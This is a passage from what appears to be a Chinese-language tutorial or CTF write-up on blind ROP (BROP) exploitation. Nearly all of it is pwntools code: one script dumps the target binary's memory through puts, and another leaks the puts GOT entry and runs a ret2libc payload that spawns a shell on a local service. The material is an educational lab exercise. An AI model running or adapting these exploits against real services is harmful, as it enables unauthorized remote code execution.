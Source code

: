 ```python
length = 72
##stop_gadget = get_stop_addr(length)
stop_gadget = 0x4005c0
##brop_gadget = find_brop_gadget(length,stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = brop_gadget + 9
##puts_plt = get_puts_plt(length, rdi_ret, stop_gadget)
puts_plt = 0x400555
addr = 0x400000
result = ""
while addr < 0x401000:
    print hex(addr)
    data = dump(length, rdi_ret, puts_plt, addr, stop_gadget)
    if data is None:
        continue
    else:
        result += data
    addr += len(data)
with open('code', 'wb') as f:
    f.write(result)
```

# 寻找puts的GOT地址

![img](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/1582370993137-ee86a9fc-9aab-44fa-a5ee-3bcfe5b9c5ff.png)

按照之前找到的puts地址，即可找到GOT表中puts的地址

# ret2libc

接下来就是ret2libc的过程

```python
##length = getbufferflow_length()
length = 72
##stop_gadget = get_stop_addr(length)
stop_gadget = 0x4006b6
##brop_gadget = find_brop_gadget(length,stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = brop_gadget + 9
##puts_plt = get_puts_addr(length, rdi_ret, stop_gadget)
puts_plt = 0x400560
##leakfunction(length, rdi_ret, puts_plt, stop_gadget)
puts_got = 0x601018

sh = remote('127.0.0.1', 9999)
sh.recvuntil('password?\n')
payload = 'a' * length + p64(rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(stop_gadget)
sh.sendline(payload)
data = sh.recvuntil('\nWelCome', drop=True)
puts_addr = u64(data.ljust(8, '\x00'))
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
payload = 'a' * length + p64(rdi_ret) + p64(binsh_addr) + p64(system_addr) + p64(stop_gadget)
sh.sendline(payload)
sh.interactive()
```

